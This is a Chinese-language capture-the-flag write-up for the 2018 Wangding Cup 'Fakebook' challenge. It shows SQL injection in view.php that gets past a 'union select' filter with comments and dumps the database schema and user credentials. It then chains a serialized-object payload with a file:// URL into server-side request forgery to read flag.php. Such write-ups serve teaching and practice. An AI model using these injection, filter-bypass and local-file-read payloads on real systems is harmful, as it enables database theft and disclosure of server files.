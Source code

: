 # [网鼎杯 2018]Fakebook
![](<./img/Pasted image 20221110205018.png>)

首页

![](<./img/Pasted image 20221110205134.png>)

`/login.php`

![](<./img/Pasted image 20221110205223.png>)

`/login.php`的账号密码直接`POST`到`/login.ok.php`

![](<./img/Pasted image 20221110205532.png>)

认证失败时通过`javascript`返回上一页

![](<./img/Pasted image 20221110205740.png>)

`/join.php`

![](<./img/Pasted image 20221110205258.png>)

`/join.php`也是直接通过`POST`实现

![](<./img/Pasted image 20221110210119.png>)

提示`blog`非法

![](<./img/Pasted image 20221110210213.png>)

修改`blog`为`https://www.baidu.com`（百度，惨）
```
username=admin&passwd=123&age=18&blog=https://www.baidu.com
```

提示加入成功
```js
alert('Join success');
location.href='/';
```

返回首页能看到相关信息

![](<./img/Pasted image 20221110210541.png>)

`username`这一列还有个超链接，点击能访问`/view.php?no=1`

![](<./img/Pasted image 20221110210858.png>)

下面出现了一个没显示全的滚动条，莫非是隐藏了什么惊天大秘密QwQ

审查元素发现这里直接用的`iframe`，而且`src`用的也不是url，而是`base64`编码过后的`html`

![](<./img/Pasted image 20221110211327.png>)

改`height`属性为`1000em`，发现解码之后正是刚才`join`时输入的百度的首页，

![](<./img/Pasted image 20221110211629.png>)

这里图片加载不出来好像是图片的`src`利用了协议依赖加载的原因（？），从`base64`解码出来的页面不知道是不是把图片路径解析成`file://`协议了

像上面所说的，既然不是直接在`iframe`里提供`https://www.baidu.com`的`url`，而是提供`base64`编码的`html`文件，说明`blog`所指示的页面是在服务端被访问的

抱着好奇试了试套娃
```sql
blog=/view.php?no=3
```
![](<./img/Pasted image 20221110214123.png>)

然后服务器就炸了wuwuwu

![](<./img/Pasted image 20221110214228.png>)

~~Two thousand years later~~

重启靶机继续迫害(

虽然知道可以利用这一点来让服务器访问任意`url`，但我想不到怎么利用这点QAQ

于是郁闷的改了改`view.php`的`no`参数
```sql
/view.php?no=1
```
![](<./img/Pasted image 20221110220444.png>)

靶机重启过，所以`no=1`是不存在的

好像可以注入的样子，有点起色了
```sql
/view.php?no=a
```
![](<./img/Pasted image 20221110220630.png>)

好家伙，报了查询错误，可能确实可以`sql`注入
```sql
/view.php?no=1 union select 1#
```
> no hack ~_~

这个no hack就有种此地无银三百两的意味了QwQ

看看什么东西被ban了
```sql
/view.php?no=1 union#
```
> [\*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1)
```sql
/view.php?no=1 select#
```
还是一样的报语法错误
```sql
/view.php?no=union select
```
> no hack ~_~

确定是`"union select"`被匹配了

尝试用`/**/`绕过，然后判断注入点
```sql
/view.php?no=1 union/**/select 1,2,3,4#
```
![](<./img/Pasted image 20221110221754.png>)

发现第二列对应`username`
```sql
/view.php?no=1 union/**/select 1,group_concat(schema_name),3,4 from information_schema.schemata#
```
![](<./img/Pasted image 20221111092722.png>)

```sql
/view.php?no=1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'#
```
![](<./img/Pasted image 20221111093042.png>)

```sql
/view.php?no=1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
```
![](<./img/Pasted image 20221111093315.png>)

后来添加了一个用户
```sql
/view.php?no=2 union/**/select 1,group_concat(no),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111095911.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(username),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111095949.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(passwd),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111100022.png>)

```sql
/view.php?no=2 union/**/select 1,group_concat(data),3,4 from fakebook.users#
```
![](<./img/Pasted image 20221111100108.png>)

这里发现`data`字段是序列化过后的用户信息

![](<./img/Pasted image 20221111100358.png>)

结合反序列化的错误提示，推测`view.php`的生成基于`data`的反序列化
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:21:"https://www.baidu.com";}'#
```
![](<./img/Pasted image 20221111100740.png>)

猜测`flag`放在`flag.php`里
```sql
/view.php?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```
```html
<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3szNDMyZDYyZS0wMWM3LTQyMzQtOTAxOC1lYzJhMGFmMGQ0NDR9IjsNCmV4aXQoMCk7DQo='>
</div>
```
结果还真猜对了QwQ

![](<./img/Pasted image 20221111101944.png>)
